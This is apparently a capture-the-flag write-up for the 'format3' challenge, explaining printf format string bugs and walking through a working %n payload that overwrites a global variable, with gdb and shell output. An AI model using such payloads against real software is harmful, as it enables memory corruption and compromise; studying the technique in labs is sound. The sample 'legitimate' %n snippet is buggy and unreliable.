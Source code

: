 ```yaml
---
title:  "format3 Writeup"
date:   2019-03-27 11:08:00
categories: writeup 
layout: post
author: Thomas White
---
```



The basis for the `format` problems are exploiting one of the many variations of `printf` in C. At first glance, it seems odd that a function as simple `printf` would be vulnerable. It just puts characters in the terminal, right? To gain some more insight, let's look at the flags you can use construct a format string out of (table abridged from [wikipeida](https://en.wikipedia.org/wiki/Printf_format_string#Type_field)):

| Character | Description |
|-----------|-------------|
| ...       | ... |
| "d, i"    | int as a signed decimal number ...|
| u         | Print decimal unsigned int.|
| "f, F"    | double in normal (fixed-point) notation ...|
| "e, E"    | double value in standard form ...|
| "g, G"    | double in either normal or exponential notation ... |
| "x, X"    | unsigned int as a hexadecimal number ... |
| o         | unsigned int in octal.|
| s         | null-terminated string.|
| c         | char (character).|
| ...       | ... |
| "a, A"    | double in hexadecimal notation ...|
| **n**     | Print nothing, but **writes the number of characters successfully written so far into an integer pointer** ...|

That looks interesting! It seems `printf` is not only allowed to 'print' to the terminal, but can also 'print' to a memory address. A legitimate use of this could look something like:

```c
int character_limit = 30;
int characters_input = 0;
printf("You input: ");
printf("%s%n\n", user_input, &character_limit);
if(characters_input > character_limit){
    printf("Maximum characters allowed is %d\n", chacter_limit);
    exit(1);
}
```

With `%n` in mind, let's take a brief look at the (abbreviated) source code for `format3`:

```c
int target;


void printbuffer(char *string)
{
  printf(string);
}
 ...

void vuln()
{
 ...
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
    printf("you have modified the target correctly :)\n");
 ...
}
```

We see this time is that we are going to make `target = 0x01025544`. The first step to this is to find where our input is going to be relative to the `printf` call. We can do this by simply running the program.


```bash
python -c 'print "AABB"+" %x"*20' | ./format3

AABB f7f73e20 f7dd8fbb 0 f7f4b000 0 ffb49a68 8048527 ffb4981c 200 f7f4b5c0 f7f7080a f7f86000 f7d77dc8 f7f59580 42424141 20782520 25207825 78252078 20782520 25207825
target is 00000000 :(
```

Notice that in the 15th `%x` we see the beginning of our input AABB as hex `42424141`. Now we know that we need 15 format string flags in order to read the first 4 bytes of our input.

Next we need to find the address of `target` to put in our exploit string. Load up the binary in gdb and run:

```gdb
(gdb) b main
Breakpoint 1 at 0x80485b2: file format3.c, line 35.
(gdb) r
Starting program: /home/vagrant/challenges/format3r/format3
Breakpoint 1, main (argc=0x1, argv=0xffffd5e4) at format3.c:35
35        vuln();
(gdb) info address target
Symbol "target" is static storage at address 0x804a048.
```

As we can see, `target` is located at `0x804a048`. So what part of memory is that? A quick look at `info proc map` tells us that this address does not lie in the stack, but the output isn't super helpful otherwise. To answer our question, we need to use another utility: `readelf`. A quick call to `readelf -S format3` will give us all of the sections in our ELF[^1] binary and a quick look will tell us that address `0x804a048` falls into `.bss`. The `.bss` section is a location in memory that holds unitilized data, all of which will be initialized to zeros when the program starts execution. Ah, so we can conclude that our compiler decided that the `.bss` section was to the best place to put the unitialized global variable `target`. In the absence of ASLR, we also suspect that this address will remain the same both inside and outside of gdb.

[^1]: [ELF](/papers/elf.pdf) is the file format used by Linux executables.

If we pull this all together, our current exploit string looks like `python -c "print '\x48\xa0\x04\x08'+'%x'*15"` which would stop printing after it prints `804a048`. We need to subtract 1 `%x` and replace it with a `%n` for the value of `target` to get changed, so let's see what happens when we run

```bash
python -c "print '\x48\xa0\x04\x08'+'%x'*14+'%n'" | ./format3

Hf7fe7e20f7e4cfbb0f7fbf0000ffb6a5b88048527ffb6a36c200f7fbf5c0f7fe480af7ffa000f7debdc8f7fcd580
target is 00000060 :(
```

Great! We are setting values! `target` is now equal to `0x60`. Now we just need to do the character math to make it `target` equal `0x01025544`.

First let's replace all the `%x` with `%c` to ensure that 1 character is printed out per format string flag. Let's leave the last `%x` to allow us to specify padding and get the exact value we want in `target`. `0x01025544` in decimal is `16930116`. Then we do some subtraction:`16930116 characters needed - 13 %c's - 4 (target address) = 16930099 additional characters to print`.

This yields a format string of `python -c "print '\x48\xa0\x04\x08'+'%c'*13+'%.16930099x'+'%n'"`. Let's run it and see what it 
does:

```bash
python -c "print '\x48\xa0\x04\x08'+'%c'*13+'%.16930099x'+'%n'" | ./format3

you have modified the target correctly :)
flag: hello world!
```
